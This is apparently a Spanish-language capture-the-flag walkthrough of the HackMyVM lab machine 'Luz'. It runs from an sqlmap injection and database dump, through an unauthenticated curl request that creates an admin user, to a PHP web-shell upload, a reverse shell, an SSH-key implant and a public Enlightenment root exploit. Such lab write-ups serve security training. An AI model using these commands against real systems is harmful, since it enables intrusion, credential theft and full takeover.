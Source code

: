 # Luz HackMyVM

- Ip atacante - 10.0.2.13
- Ip victima - 10.0.2.9
## Nmap

Realizamos el primer escaneo y solo tenemos dos puestos abiertos

![](img/luz1.png)   

## 80 http

Al parecer es una pagina muy normal y la verdad que pense que teniamos por el ?page=home algun tipo de LFI pero al parecer no es el caso.
Entonces cuando segui jugando con la nos encontramos con que al agregar 
o ver un producto carga en la seccion de network un link muy interesante

![](img/luz2.png)
![](img/luz3.png)
Ahora veremos si la pagina tiene SQLI. Para esto correremos sqlmap

```sqlmap -u http://10.0.2.13/view_prod.php?id=3```

![](img/luz4.png)
Viendo la imagen podemos ver que esta usando MySQL y que puedo utilizar el tipo de Union para realizar el SQLI
Ahora ire a probarla a la web para ver cual es el campo injectable.

![](img/luz5.png)

```sqlmap -u http://10.0.2.13/view_prod.php?id=1 --technique=U --dbms=mysql --dbs```

![](img/luz6.png)

```sqlmap -u http://10.0.2.13/view_prod.php?id=1 --technique=U --dbms=mysql -D fos --tables```

![](img/luz7.png)

```sqlmap -u http://10.0.2.13/view_prod.php?id=1 --technique=U --dbms=mysql -D fos -T user_info --dump --batch```

![](img/luz8.png)

```sqlmap -u http://10.0.2.13/view_prod.php?id=1 --technique=U --dbms=mysql -D fos -T users --dump --batch```

![](img/luz9.png)

Ok pero ahora esto no nos ayuda mucho debido a que es complicado pasar el hash del password a texto plano. 

Para esto vamos a continuar haciendo un scanning a la pagina de admin para ver que nos podemos encontrar.

```gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.0.2.13/admin -x .php,.html,.txt```

![](img/luz10.png)

Dentro de users.php nos encontramos que hay una pagina muy interesante y dentro de su codigo fuente nos encontramos otra pagina la cual nos permite crear un nuevo usuario

![](img/luz11.png)
![](img/luz12.png)

Ahora ya dentro de la pagina de manage_user.php intentamos crear un nuevo usuario de tipo administrador

![](img/luz13.png)

Al carecer de un boton en la pagina para darle a confirmar lo haremos desde el terminal con curl
Para esto leeremos el codigo fuente para saber el nombre los parametros y ver cual tiene que ser la respuesta.

![](img/luz14.png)

En este caso vemos que la respuesta tiene que ser 1 si se ha creado correctamente el usuario.

```curl --url "http://10.0.2.13/admin/ajax.php?action=save_user" -X POST -d "name=test&username=test&password=test&type=1"```

![](img/luz15.png)

Ahora con este comando deberia actualizar la tabla de usuarios y salir el test
```sqlmap -u http://10.0.2.13/view_prod.php?id=1 --technique=U --dbms=mysql -D fos -T users --dump --batch --flush-session```

Ahora si procedemos a ingresar a la pagina principal e ingresar como login de administradores.

Viendo la pagina vemos que tiene para subir un menu. Intente subir un menu totalmente normal y luego intente subir un .txt para ver si admite subir otro tipo de archivo.

Efectivamente si permite subir otro archivo, entonces intentaremos subir un archivo que nos proporcione inyectar codigo con php

![](img/luz16.png)

Actualizamos el menu junto con el shell.php

![](img/luz17.png)

Ahora solo debemos aprovecharnos del archivo que subimos

![](img/luz18.png)

urlencodeamos un reverse shell y listo

![](img/luz19.png)

Con esto ya tenemos nuestra shell siendo www-data
Solo queda buscar la forma de cambiar de usuario y escalar privilegios

![](img/luz20.png)

Encontramos en la ruta /html el user.txt con la primera flag

![](img/luz21.png)

Ahora hacemos un poco de enumeracion, pero no encontre nada interesante hasta que tire del comando find

![](img/luz22.png)

Ahora buscamos el bsd y el csh en gtfobins y nos aparece que hacer
https://gtfobins.github.io/gtfobins/csh/
Yendo a la direccion de /usr/bin y corriendo el comando que nos proporcionan logro obtener una shell como aelis

![](img/luz23.png)

Ahora no nos deja avanzar, sin embargo vamos a ingresar por el puerto 22 ssh

## 22 ssh

- En la maquina atacante (Generando mi clave publica)
```rm -rf ~/.ssh```
```ssh-keygen```

![](img/luz24.png)

- En la maquina victima (Ingresando clave publica)

Ahora si podemos visualizar mi clave publica y pasarla dentro de **/home/aelis/.ssh/authorized_keys** en la maquina victima

![](img/luz25.png)

Ahora solo queda conectarme como ```ssh aelis@10.0.2.13```
De esta manera ya no nos pide la contraseña de aelis pero si nos permite entrar como aelis.

Ahora si nos fijamos encontramos en el comando find de arriba un tal enlightement que basicamente es un gestionador de ventanas

Encontramos un exploit 
https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit

Lo copie y lo pegue en la ruta /tmp
Por ultimo lo corru y escalamos privilegios a root y obtuve la flag

![](img/luz26.png)